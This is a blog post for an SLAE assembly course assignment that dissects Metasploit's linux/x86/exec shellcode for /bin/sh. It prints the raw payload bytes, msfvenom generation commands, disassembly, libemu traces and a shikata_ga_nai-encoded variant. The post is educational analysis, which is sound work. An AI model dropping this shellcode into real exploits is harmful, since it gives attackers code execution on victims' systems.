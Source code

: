 ```yaml
---
layout: post
title:  "SLAE Assignment 5.1 - Msfvenom linux/x86/exec shellcode analysis"
date:   2017-04-24
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 5.1:  
    
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
<!--more-->
  
Hello everybody,  
  
Here we are for the analysis of three Msfvenom shellcodes for the platform linux/x86. Let's start with the **linux/x86/exec** shellcode with the command **/bin/sh**:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
  
Let's disassemble the shellcode:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes

00000000  6A0B        push byte +0xb
00000002  58          pop eax
00000003  99          cdq
00000004  52          push edx
00000005  66682D63    push word 0x632d
00000009  89E7        mov edi,esp
0000000B  682F736800  push dword 0x68732f
00000010  682F62696E  push dword 0x6e69622f
00000015  89E3        mov ebx,esp
00000017  52          push edx
00000018  E808000000  call dword 0x25
0000001D  2F          das
0000001E  62696E      bound ebp,[ecx+0x6e]
00000021  2F          das
00000022  7368        jnc 0x8c
00000024  005753      add [edi+0x53],dl
00000027  89E1        mov ecx,esp
00000029  CD80        int 0x80
```
  
Let's have a look with libemu:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | sctest -vvv -S -s 10000 -G exec_sh.dot && dot exec_sh.dot -Tpng -o exec_sh.png
```
![exec_sh]({{ site.url }}/public/images/slae/assignment5/exec_sh.png)  
  
Clearly we can see that we will make an execve syscall: ``` #define __NR_execve 11 ```.  
  
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
  
So let's comment our shellcode instructions:  
```nasm
    push byte +0xb          ; syscall execve 12
    pop eax                 ; syscall number in eax
    cdq                     ; clears out edx thanks to eax sign extension
    push edx                ; push 0 or null byte to end the following string
    push word 0x632d        ; "-c"
    mov edi,esp             ; edi stores the @ of "-c"
    push dword 0x68732f     ; "/sh"
    push dword 0x6e69622f   ; "/bin"
    mov ebx,esp             ; ebx is the first arg of execve "/bin/sh"
    push edx                ; null byte
    call dword 0x25         ; push the address of the following string on the stack (and jmp to push edi)
    das                     ; the following instructions are meaningless because the bytes are corresponding
    bound ebp,[ecx+0x6e]    ; to the string "/bin/sh -c /bin/sh" for argv[]
    das
    jnc 0x8c
    add [edi+0x53],dl
    mov ecx,esp             ; setting @ for argv
    int 0x80                ; syscall
```
  
In order to explain the meaningless intructions after the call instruction:  
```bash
# echo -ne \\x2F\\x62\\x69\\x6E\\x2F\\x73\\x68
/bin/sh
# echo -ne \\x57\\x53 | ndisasm -u -
00000000  57                push edi
00000001  53                push ebx
```
  
EDI points to the string *"-c"*, EBX points to the string *"/bin/sh"*. So finally argv[] will have the following arguments:  
 - argv[0]: address of "/bin/sh"
 - argv[1]: address of "-c"
 - argv[2]: address of "/bin/sh"
  
It can be confirm thanks to libemu:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | sctest -vvv -S -s 10000
...
int execve (
     const char * dateiname = 0x00416fc0 => 
           = "/bin/sh";
     const char * argv[] = [
           = 0x00416fb0 => 
               = 0x00416fc0 => 
                   = "/bin/sh";
           = 0x00416fb4 => 
               = 0x00416fc8 => 
                   = "-c";
           = 0x00416fb8 => 
               = 0x0041701d => 
                   = "/bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
...
```
  
However we can can see some null bytes in our shellcode. Let's have a look to a shellcode without null bytes:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw -b \x00 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes

00000000  DDC5              ffree st5
00000002  D97424F4          fnstenv [esp-0xc]
00000006  58                pop eax
00000007  BE2E1FB4CF        mov esi,0xcfb41f2e
0000000C  33C9              xor ecx,ecx
0000000E  B10B              mov cl,0xb
00000010  31701A            xor [eax+0x1a],esi
00000013  03701A            add esi,[eax+0x1a]
00000016  83C004            add eax,byte +0x4
00000019  E2DB              loop 0xfffffff6
0000001B  75BF              jnz 0xffffffdc
0000001D  97                xchg eax,edi
0000001E  BAD8D94F91        mov edx,0x914fd9d8
00000023  BFAC778110        mov edi,0x108177ac
00000028  DC1F              fcomp qword [edi]
0000002A  51                push ecx
0000002B  07                pop es
0000002C  0D8238B9D8        or eax,0xd8b93882
00000031  A1E8ADD325        mov eax,[0x25d3ade8]
00000036  0C2E              or al,0x2e
00000038  CB                retf
00000039  47                inc edi
0000003A  6540              gs inc eax
0000003C  3CFB              cmp al,0xfb
0000003E  1D9C15A854        sbb eax,0x54a8159c
00000043  7D54              jnl 0x99
00000045  CE                into
```  
  
Now we can see that the shellcode is a slightly more complex because of the shikata_ga_nai encoding routine useful to avoid null bytes.  
  
Hope you enjoyed this post, see you soon for the second msf shellcode analysis.  
  
[Phackt](https://twitter.com/phackt_ul)